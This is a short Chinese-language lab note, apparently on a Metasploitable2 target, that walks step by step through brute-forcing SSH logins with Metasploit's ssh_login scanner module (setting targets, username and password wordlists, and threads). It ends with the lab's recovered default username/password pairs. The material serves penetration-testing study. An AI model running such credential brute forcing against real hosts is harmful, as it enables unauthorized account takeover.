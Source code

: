 # 22_ssh

弱口令爆破

使用msf

搜索模块脚本

> search ssh_login

![image-20210319095256781](../../image/meteaspolitale2/image-20210319095256781.png)

选择模块脚本

> use auxiliary/scanner/ssh/ssh_login

查看选项

> options

![image-20210319095419787](../../image/meteaspolitale2/image-20210319095419787.png)

选择目标靶机

> set RHOSTS

设置用户名字典

> set USER_FILE username1.txt

设置密码字典

> set PASS_FILE password.txt

设置线程

> set THREADS 50

设置是否回显

> set VERBOSE true

执行

> exploit

![image-20210319104559365](../../image/meteaspolitale2/image-20210319104559365.png)

获得爆破用户名密码

```
msfadmin/msfadmin
user/user
postgres/postgres
sys/batman
klog/123456789
service/service
```

